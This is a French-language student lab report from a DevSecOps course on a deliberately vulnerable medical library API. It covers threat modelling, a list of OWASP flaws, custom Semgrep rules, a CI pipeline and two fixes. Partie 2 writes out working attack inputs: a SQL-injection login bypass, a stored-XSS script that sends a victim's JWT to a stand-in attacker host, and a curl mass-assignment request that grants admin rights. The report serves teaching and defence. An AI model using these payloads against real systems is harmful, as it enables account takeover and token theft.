

# RAPPORT_TP — MediLib DevSecOps

**Module :** Sécurité Logicielle & DevSecOps (2INF2311) — SUP de CO Dakar, Master 2 GL
**Étudiant :** Simon Nguema
**Repo :** https://github.com/SimonNguema/medilib_tp

---

## Partie 1 — Threat Modeling

### Q1.1 — DFD complet de MediLib

Modélisé dans **OWASP Threat Dragon** (fichier source [`MediLib.json`](docs/MediLib.json)).



**Éléments du diagramme :**

| Type | Éléments |
|---|---|
| Entités externes | `Médecin / Pharmacien`, `Attaquant externe` |
| Processus | `API` (Gateway), `Frontend WEB`, `API MediLib` |
| Data stores | `BDD SQLite`, `Système de fichier / PDF` |
| Frontières de confiance | Internet · Gateway/Frontend ↔ API · Code applicatif ↔ Stockage |

**Flux et types de données transportées :**

| # | Flux | Données qui circulent |
|---|------|------------------------|
| 1 | Médecin → API | email + password en clair (login), puis JWT Bearer sur les appels suivants |
| 2 | Attaquant → API *(en rouge sur le diagramme)* | payloads malveillants (injection SQL, XSS, tokens falsifiés) |
| 3 | API → API MediLib | requête HTTP relayée (headers, body JSON, Bearer) |
| 4 | Frontend WEB → API MediLib | requêtes AJAX authentifiées par JWT stocké côté client |
| 5 | API MediLib → BDD SQLite | requête SQL — certaines construites par **concaténation directe** (`auth.js:12`, `emprunts.js:34,47`, `livres.js:21-24`, `membres.js:45`) |
| 6 | API MediLib → Système de fichier/PDF | chemin + contenu binaire des PDF médicaux |

**3 frontières de confiance identifiées** (l'énoncé en demande au moins 2) :

| Frontière | Justification |
|---|---|
| **Internet ↔ API** | Tout ce qui vient d'un client web (médecin comme attaquant) est non fiable par défaut : c'est la limite du système. |
| **Gateway/Frontend ↔ API applicative** | Rien dans `server.js` ne montre de validation/filtrage au niveau gateway (CORS ouvert à `*`, `server.js:21-24`) — toute la confiance repose sur le code applicatif en aval, qui doit donc revalider chaque entrée. |
| **Code applicatif ↔ Stockage** | Les requêtes SQL sont construites avec des données utilisateur non nettoyées avant d'atteindre la BDD (flux 5) — la frontière de confiance est violée à plusieurs endroits du code. |

---

### Q1.2 — STRIDE sur le flux Médecin → API MediLib

Flux analysé : `POST /api/auth/login` (authentification) puis les appels authentifiés suivants via JWT.

| Catégorie | Menace concrète sur ce flux | Contre-mesure |
|---|---|---|
| **Spoofing** | Le JWT est signé avec un secret hardcodé faible (`medilib_jwt_2024`, en clair dans `server.js:16` et `auth.js:21`) — un attaquant qui lit le code source (repo public) peut forger un token valide pour n'importe quel membre, y compris admin. | Charger le secret depuis `process.env.JWT_SECRET` : valeur forte, générée aléatoirement, jamais committée. |
| **Tampering** | `auth.js:12` construit la requête de login par concaténation directe → un attaquant modifie la structure même de la requête SQL envoyée à la base. | Requêtes préparées avec paramètres liés (`?`). |
| **Repudiation** | Aucune tentative de login (réussie ou échouée) n'est journalisée → impossible de prouver qui s'est connecté, quand, depuis où. | Journaliser chaque tentative (email, timestamp, IP, résultat) dans un système d'audit append-only. |
| **Information Disclosure** | En cas d'erreur SQL, `auth.js:15` renvoie `err.message` **et** la requête SQL brute (`query`) au client → fuite du schéma de la BDD et confirmation de l'injection. | Ne jamais renvoyer les détails d'erreur SQL au client ; logger côté serveur uniquement, réponse générique. |
| **Denial of Service** | Aucun rate-limiting sur `/api/auth/login` → bruteforce de mots de passe ou saturation du serveur possible. | Rate-limiter (ex. `express-rate-limit`) par IP/compte sur les routes d'authentification. |
| **Elevation of Privilege** | `auth.js:19-22` : le JWT contient `role` mais est signé **sans `expiresIn`** → un token volé reste valide indéfiniment ; combiné au secret faible, un attaquant peut fabriquer un token avec `role:'admin'`. | Ajouter `expiresIn`, revalider le rôle côté serveur à chaque requête sensible, secret fort non exposé dans le code. |

---

### Q1.3 — Repudiation sur `PUT /:id/retourner` (`src/routes/emprunts.js:44-53`)

**Pourquoi (3 lignes) :** La route change le statut de l'emprunt (`statut='retourné'`) sans jamais enregistrer *qui* a effectué l'action, *quand* elle a eu lieu réellement, ni l'état précédent — rien n'est persisté au-delà du champ `statut`. N'importe quel membre authentifié peut donc déclarer un livre retourné (ou nier l'avoir fait) sans qu'aucune preuve ne permette de le contredire. C'est aggravé par l'absence de vérification que l'utilisateur est bien le membre concerné par cet emprunt (même faille IDOR que la VULN 1 du fichier).

**Correction proposée :**

```javascript
router.put('/:id/retourner', auth, (req, res) => {
  const dateRetourReelle = new Date().toISOString();
  db.run(
    `UPDATE emprunts SET statut = 'retourné' WHERE id = ? AND membre_id = ?`,
    [req.params.id, req.user.id],
    function (err) {
      if (err) return res.status(500).json({ error: 'Erreur serveur' });
      if (this.changes === 0) return res.status(404).json({ error: 'Emprunt introuvable' });

      db.run(
        `INSERT INTO audit_log (action, emprunt_id, membre_id, date_action)
         VALUES ('retour', ?, ?, ?)`,
        [req.params.id, req.user.id, dateRetourReelle],
        () => res.json({ message: 'Livre retourné', id: req.params.id })
      );
    }
  );
});
```

---

## Partie 2 — Analyse OWASP Top 10

### Q2.1 — Vulnérabilités identifiées (≥ 6 requises, 15 recensées)

| # | Fichier | Ligne | Vulnérabilité | OWASP | CWE | Sévérité |
|---|---------|-------|----------------|-------|-----|----------|
| 1 | `src/server.js` | 16-18 | 3 secrets hardcodés (`JWT_SECRET`, `ADMIN_TOKEN`, `DB_ENCRYPTION`) | A02:2021 | CWE-798 | Critique |
| 2 | `src/server.js` | 21-24 | CORS permissif (`Access-Control-Allow-Origin: *`) | A05:2021 | CWE-942 | Élevée |
| 3 | `src/server.js` | 34-39 | Stack trace + chemin fichier exposés dans les erreurs 500 | A05:2021 | CWE-209 | Moyenne |
| 4 | `src/routes/auth.js` | 12 | SQL Injection sur le login | A03:2021 | CWE-89 | Critique |
| 5 | `src/routes/auth.js` | 19-22 | JWT signé avec secret hardcodé, sans `expiresIn` | A02/A07:2021 | CWE-798 | Critique |
| 6 | `src/routes/auth.js` | 32-34 | SQL Injection sur l'inscription + mot de passe stocké en clair | A03/A02:2021 | CWE-89 / CWE-256 | Critique |
| 7 | `src/routes/emprunts.js` | 17-27 | IDOR — accès aux emprunts de n'importe quel membre | A01:2021 | CWE-639 | Élevée |
| 8 | `src/routes/emprunts.js` | 30-40 | Tampering — `dateRetour` fournie par le client, non validée | A03/A08:2021 | CWE-20 | Moyenne |
| 9 | `src/routes/emprunts.js` | 44-53 | SQLi + Repudiation sur le retour de livre | A03:2021 | CWE-89 | Élevée |
| 10 | `src/routes/livres.js` | 17-30 | SQL Injection sur la recherche (`/search`) | A03:2021 | CWE-89 | Critique |
| 11 | `src/routes/livres.js` | 33-46 | XSS Stocké via les commentaires | A03:2021 | CWE-79 | Critique |
| 12 | `src/routes/livres.js` | 49-55 | IDOR sur la consultation d'un livre par id | A01:2021 | CWE-639 | Faible |
| 13 | `src/routes/membres.js` | 17-26 | Exposition des mots de passe en clair à tout membre connecté | A01/A02:2021 | CWE-200 | Critique |
| 14 | `src/routes/membres.js` | 29-34 | IDOR — accès au profil complet de n'importe quel membre | A01:2021 | CWE-639 | Élevée |
| 15 | `src/routes/membres.js` | 36-51 | Mass Assignment + SQL Injection sur `PUT /:id` | A04/A03:2021 | CWE-915 / CWE-89 | Critique |

### Q2.2 — Exploitation SQLi (login admin sans mot de passe)

Code vulnérable (`src/routes/auth.js:12`) :
```javascript
const query = `SELECT * FROM membres WHERE email='${email}' AND password='${password}'`;
```

```
Email    : admin@medilib.sn' --
Password : nimporte_quoi
```

Requête réellement exécutée :
```sql
SELECT * FROM membres WHERE email='admin@medilib.sn' -- ' AND password='nimporte_quoi'
```

`--` ouvre un commentaire SQL : tout ce qui suit (y compris la vérification du mot de passe) est ignoré par le moteur SQLite. La requête renvoie directement la ligne `admin@medilib.sn`, sans que le mot de passe ait été vérifié.
*Variante équivalente :* `' OR '1'='1' --` (condition toujours vraie sur toute la table).

> 📷 **CAPTURE À INSÉRER ICI** — requête POST `/api/auth/login` avec ce payload (Postman/curl/navigateur), montrant la réponse 200 avec le token admin.

### Q2.3 — XSS Stocké (vol de JWT via les commentaires)

Route vulnérable : `POST /api/livres/:id/commentaire` (`src/routes/livres.js:33-46`) — le commentaire est stocké et renvoyé sans aucun encodage/sanitization ; s'il est affiché tel quel côté frontend, le script s'exécute dans le navigateur de chaque médecin qui consulte la fiche du livre.

```javascript
// Payload à poster comme "commentaire" :
<script>
fetch('https://attaquant.exemple/steal?t=' + encodeURIComponent(localStorage.getItem('token')))
</script>
```

Chaque médecin qui ouvre la page des commentaires du livre exécute ce script à son insu : son JWT (stocké côté client, ex. `localStorage`) est exfiltré vers le serveur de l'attaquant, qui peut ensuite l'utiliser pour usurper son compte tant que le token est valide.

### Q2.4 — Mass Assignment (auto-promotion admin)

Route vulnérable : `PUT /api/membres/:id` (`src/routes/membres.js:36-51`) — tous les champs du `req.body` sont injectés tels quels dans la requête `UPDATE`, sans liste blanche.

```bash
curl -X PUT http://localhost:3000/api/membres/2 \
  -H "Authorization: Bearer TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"role":"admin"}'
```

Un membre authentifié (id 2, rôle `membre`) envoie ce `PUT` sur **son propre profil** : `Object.keys(updates).map(...)` (ligne 40) traite `role` comme n'importe quel autre champ éditable et génère `UPDATE membres SET role='admin' WHERE id=2`. Le membre devient administrateur sans qu'aucune vérification de rôle n'intervienne.

> 📷 **CAPTURE À INSÉRER ICI** — requête PUT ci-dessus et réponse, ou profil du membre avant/après montrant `role: "admin"`.

---

## Partie 3 — Règles Semgrep Custom

Fichier [`.semgrep/rules.yaml`](.semgrep/rules.yaml) — **6 règles**, chacune dotée de `id`, `pattern`, `message`, `languages`, `severity` et `metadata.cwe`. Les 3 premières couvrent les contraintes imposées par l'énoncé, les 3 suivantes complètent la couverture.

| # | Règle | Ce qu'elle détecte | Pourquoi elle est nécessaire | CWE | Findings |
|---|-------|--------------------|------------------------------|-----|----------|
| 1 | `medilib-sqli-template-literal` | `db.run/all/get(\`...${...}...\`)` — requête SQL en *template literal* interpolé | **Contrainte 1.** Forme d'injection la plus directe du projet | CWE-89 | 3 |
| 2 | `medilib-hardcoded-secret-const` | `const $VAR = "..."` où `$VAR` contient SECRET/PASSWORD/TOKEN/KEY/ENCRYPTION | **Contrainte 2.** Cible les 3 secrets de `server.js:16-18` | CWE-798 | 3 |
| 3 | `medilib-mass-assignment` | `Object.keys($BODY).map(...)` | **Contrainte 3 (au choix).** Sans liste blanche, l'attaquant injecte `role` dans le corps de la requête | CWE-915 | 1 |
| 4 | `medilib-sqli-taint` (mode **taint**) | Flux `req.body/query/params` → `db.get/run/all()` **via une variable intermédiaire** | La règle 1 ne voit que le literal *directement en argument* ; `auth.js` et `livres.js` font `const query = …; db.get(query, …)`. Il faut suivre le flux de la donnée | CWE-89 | 6 |
| 5 | `medilib-hardcoded-jwt-secret` | `jwt.sign/verify($X, "...")` | Le secret JWT est dupliqué dans 4 fichiers → forge de tokens et rotation impossible | CWE-798 | 4 |
| 6 | `medilib-error-response-leak` | `res.status(...).json({..., query: …})` / `{..., stack: …}` | `auth.js:15` et `livres.js:27` renvoient la requête SQL au client, `server.js:34-39` la stack trace | CWE-209 | 3 |

> **Total : 20 findings** sur le code vulnérable initial, validés en local via Docker (`semgrep/semgrep`) avant tout push.

**Deux pièges rencontrés lors de l'écriture des règles :**

1. **YAML** — un pattern contenant `query: $Q` doit être **quoté** (`'res.status(...).json({..., query: $Q, ...})'`), sinon YAML interprète le `:` comme un séparateur clé/valeur et le fichier est rejeté (`mapping values are not allowed here`).
2. **`metavariable-regex`** — la sémantique est celle de `re.match`, **ancrée au début** de la chaîne. Sans le `.*` initial, la regex `(SECRET|TOKEN|KEY)` ne matche pas `JWT_SECRET`, qui commence par `JWT`. Une règle syntaxiquement valide peut donc ne rien détecter du tout.

> 📷 **CAPTURE À INSÉRER ICI** — terminal montrant `docker run ... semgrep scan --config .semgrep/rules.yaml`, cadrée sur le bloc `Scan Summary` (20 findings, 6 rules run).

---

## Partie 4 — Pipeline GitHub Actions

Fichier [`.github/workflows/devsecops.yml`](.github/workflows/devsecops.yml) — **5 jobs** enchaînés :

```
SAST (Semgrep) ─┐
                ├─→ Build Docker ─→ Scan Image (Trivy) ─→ Security Summary
SCA (Trivy fs) ─┘
```

| Job | Outil | Périmètre | Exigence de l'énoncé couverte |
|-----|-------|-----------|-------------------------------|
| `sast` | Semgrep | Code source : 6 règles custom + packs `p/owasp-top-ten`, `p/nodejs`, `p/secrets` | Résultat uploadé en **SARIF** dans GitHub Security |
| `sca` | Trivy (`scan-type: fs`) | Dépendances npm | Résultat uploadé en **SARIF** dans GitHub Security |
| `build` | Docker | Image applicative | `needs: [sast, sca]` — ne se déclenche **que si** SAST et SCA passent |
| `scan-image` | Trivy (`image-ref`) | CVE de l'image | `ignore-unfixed: true` |
| `security-summary` | — | Récapitulatif | `if: always()` + tableau markdown dans le *step summary* |

**Pourquoi les jobs SAST/SCA « passent » malgré des findings.** Le code est intentionnellement vulnérable : si le job échouait dès qu'une faille est trouvée, `build` ne se déclencherait jamais. L'étape Semgrep utilise donc `continue-on-error: true`, tandis que le SARIF est uploadé quel que soit le résultat (`if: always()`) pour que les alertes apparaissent bien dans Security. C'est un choix pédagogique délibéré — voir Q4.1 ci-dessous sur où un vrai blocage serait justifié.

> 📷 **CAPTURE À INSÉRER ICI** — onglet Actions, les 5 jobs au vert.

> 📷 **CAPTURE À INSÉRER ICI** — Security → Code scanning, filtré sur `tool:Semgrep`, alertes en **Open**.

### Q4.1 — Sur quel job mettre `exit-code: '1'` en priorité ?

**Sur le job SAST (Semgrep).** Dans un contexte médical, les données en jeu (identité des praticiens, mots de passe, historique d'emprunts) relèvent du secret médical : la SQLi du login et le secret JWT en dur donnent un accès immédiat et total à cette base, et ce sont des défauts **de notre propre code**, donc corrigeables tout de suite. À l'inverse, les CVE remontées par Trivy sur l'image de base sont souvent sans correctif disponible et pas nécessairement exploitables dans notre contexte — bloquer systématiquement dessus stopperait les livraisons sans réduire le risque réel, et habituerait l'équipe à contourner la barrière.

---

## Partie 5 — Corrections

Le code vulnérable est **conservé en commentaire** au-dessus de chaque correction, avec l'explication de la faille.

### Correction 1 — SQL Injection du login (`src/routes/auth.js`)

```javascript
// ❌ AVANT
const query = `SELECT * FROM membres WHERE email='${email}' AND password='${password}'`;
db.get(query, (err, membre) => {
  if (err) return res.status(500).json({ error: err.message, query });

// ✓ APRÈS
const query = 'SELECT * FROM membres WHERE email = ? AND password = ?';
db.get(query, [email, password], (err, membre) => {
  if (err) return res.status(500).json({ error: 'Erreur serveur' });
```

**Requête préparée à paramètres liés** : le driver SQLite traite `email` et `password` comme des *données*, jamais comme du code SQL. Le payload `admin@medilib.sn' --` (Q2.2) est désormais cherché **littéralement** comme adresse e-mail et ne correspond à aucun compte. La requête SQL n'est plus renvoyée au client dans le message d'erreur.

> 📷 **CAPTURE 1 À INSÉRER ICI** — [`src/routes/auth.js`](src/routes/auth.js), la fonction `/login` complète : code AVANT commenté + code APRÈS, tel qu'ouvert dans l'éditeur.

> 📷 **CAPTURE 2 À INSÉRER ICI** — le payload de Q2.2 rejoué (Postman/curl) **après correction** : réponse `401 Identifiants invalides` au lieu du token admin.

### Correction 2 — Secrets hardcodés (`src/server.js`)

```javascript
// ❌ AVANT
const JWT_SECRET     = "medilib_jwt_2024";
const ADMIN_TOKEN    = "ml_admin_tok3n_secret";
const DB_ENCRYPTION  = "dbK3yMediLib!";

// ✓ APRÈS
const JWT_SECRET     = process.env.JWT_SECRET;
const ADMIN_TOKEN    = process.env.ADMIN_TOKEN;
const DB_ENCRYPTION  = process.env.DB_ENCRYPTION;
```

Secrets sortis du code et chargés depuis `.env`, exclu par `.gitignore`. Ils peuvent désormais être changés ou révoqués sans modifier le code.

**Correction de cohérence indispensable :** `jwt.sign` (`auth.js`) signe maintenant avec `process.env.JWT_SECRET`, mais les trois middlewares `auth` de `livres.js`, `emprunts.js` et `membres.js` vérifiaient encore avec le littéral `'medilib_jwt_2024'`. Sans les aligner, **tout token émis après la correction aurait été rejeté** : l'application était cassée. Les 4 emplacements utilisent désormais la variable d'environnement.

> 📷 **CAPTURE 3 À INSÉRER ICI** — [`src/server.js`](src/server.js), lignes 15-27 (AVANT commenté + APRÈS).

> 📷 **CAPTURE 4 À INSÉRER ICI** — un des 3 middlewares corrigés, par exemple [`src/routes/membres.js`](src/routes/membres.js) ligne ~11, pour montrer l'alignement sur `process.env.JWT_SECRET`.

### Vérification Open → Fixed

Mesure réalisée en local avec Semgrep (Docker) sur les 6 règles custom, avant et après corrections :

| Règle | Avant | Après | Écart |
|-------|-------|-------|-------|
| `medilib-sqli-taint` | 6 | 5 | −1 |
| `medilib-hardcoded-jwt-secret` | 4 | 0 | **−4** |
| `medilib-hardcoded-secret-const` | 3 | 0 | **−3** |
| `medilib-sqli-template-literal` | 3 | 3 | — |
| `medilib-error-response-leak` | 3 | 2 | −1 |
| `medilib-mass-assignment` | 1 | 1 | — |
| **Total** | **20** | **11** | **−9** |

Les **9 alertes fermées** correspondent exactement au périmètre corrigé : les 3 secrets de `server.js`, les 4 usages du secret JWT en dur, la SQLi du login et la fuite de requête SQL associée. GitHub compare automatiquement le SARIF du dernier scan avec le précédent : ce qui disparaît passe en **Fixed**, sans action manuelle.

Les 11 findings restants sont **volontairement conservés** : l'énoncé ne demandait que 2 corrections, et ils documentent les vulnérabilités encore ouvertes (mass assignment, SQLi de la recherche et des emprunts, IDOR).

> 📷 **CAPTURE 5 À INSÉRER ICI** — onglet **Actions**, le run déclenché par le commit de correction, 5 jobs verts.

> 📷 **CAPTURE 6 À INSÉRER ICI** — **Security → Code scanning**, filtré `tool:Semgrep`, avant push : alertes en **Open** (référence, déjà capturée en Partie 4).

> 📷 **CAPTURE 7 À INSÉRER ICI** — **Security → Code scanning**, filtré `tool:Semgrep is:closed` : les alertes correspondant aux 2 corrections passées en **Fixed**. *(Attendre 2-3 min après la fin du run avant de rafraîchir.)*

---

*SUP de CO Dakar — Cours 2INF2311*
